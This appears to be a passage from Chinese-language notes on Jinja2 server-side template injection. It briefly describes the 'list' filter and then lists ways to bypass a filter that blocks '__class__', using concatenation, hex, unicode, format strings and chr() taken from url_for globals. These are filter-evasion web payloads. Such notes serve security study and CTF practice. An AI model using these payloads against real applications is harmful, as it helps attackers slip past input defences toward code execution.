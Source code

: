 

#### list
> Convert the value into a list. If it was a string the returned list will be a list of characters.

例如：
![alt text](images/image26.png)

主要用途是配合`string`转换成列表，就可以调用列表里面的方法取字符。


#### ...待补充


### 2.0 过滤关键字
以过滤了`__class__`为例，可以采用如下方法绕过：

#### 拼接
无符号拼接：
```python
''.__class__ = ''['__cla''ss__']
```
`+`拼接：
```python
''.__class__ = ''['__cla' + 'ss__']
```
`~`拼接：
```python
''.__class__ = ''['__cla'~'ss__']
{%set a='__cla' %}{%set b='ss__'%}{{''[a~b]}}
```

#### 编码绕过
16进制编码：
```python
''.__class__ = ''["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]
```
Unicode编码：
```python
''.__class__ = ''["\u005f\u005fclas\u0073\u005f\u005f"]
```
python字符串格式化：
```python
''.__class__ = ''["{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)]
#或者使用过滤器  ""["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)]
```
chr函数转换：
```python
{% set chr=url_for.__globals__['__builtins__'].chr %} #{%set chr = x.__init__.__globals__['__builtins__'].chr%}
''.__class__ = ''[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]
```
